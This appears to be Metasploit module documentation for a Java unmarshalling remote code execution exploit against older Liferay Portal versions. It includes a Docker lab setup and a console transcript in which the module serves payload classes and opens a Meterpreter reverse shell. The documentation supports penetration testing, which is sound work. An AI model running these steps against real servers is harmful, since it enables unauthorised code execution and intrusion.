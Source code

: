 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1 GA2
to execute code as the Liferay user.

### Setup

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).

### Targets

```
Id  Name
--  ----
0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to bind the remote
classloading server to.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf5 > use exploit/multi/http/liferay_java_unmarshalling
msf5 exploit(multi/http/liferay_java_unmarshalling) > show missing

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf5 exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[*] Sending go-go-gadget for remote classloading
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```
